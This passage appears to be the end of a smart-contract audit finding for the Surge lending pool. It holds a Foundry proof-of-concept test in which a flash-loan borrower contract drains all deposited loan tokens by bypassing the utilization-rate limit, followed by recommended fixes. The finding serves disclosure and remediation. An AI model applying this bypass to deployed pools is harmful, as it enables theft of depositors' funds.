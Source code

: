 ```solidity
        pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), maxCollateralRatioMantissa, surgeMantissa, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
    }

    function testFailBorrowAll() external {
        // Alice deposits 1 LOAN token
        vm.startPrank(alice);
        loanToken.approve(address(pool), 1 ether);
        pool.deposit(1 ether);
        vm.stopPrank();

        // Bob tries to borrow all available loan tokens
        vm.startPrank(bob);
        collateralToken.approve(address(pool), 1 ether);
        pool.addCollateral(bob, 1 ether);
        pool.borrow(1 ether);
        vm.stopPrank();
    }

    function testBypassUtilizationRate() external {
        uint balanceBefore = loanToken.balanceOf(bob);

        // Alice deposits 1 LOAN token
        vm.startPrank(alice);
        loanToken.approve(address(pool), 1 ether);
        pool.deposit(1 ether);
        vm.stopPrank();

        // Bob tries to borrow all available loan tokens
        vm.startPrank(bob);
        collateralToken.approve(address(pool), 1 ether);
        borrower = new Borrower(flashLoan, pool);
        pool.addCollateral(address(borrower), 1 ether);
        borrower.borrowAll();
        vm.stopPrank();

        assertEq(loanToken.balanceOf(bob) - balanceBefore, 1 ether);
    }
}
```

## Tool used

Manual Review

## Recommendation

A possible solution would be adding a locking period for deposits of loan tokens.

Another possibility is to enforce that the utilization rate was under the surge rate also in the previous snapshot.
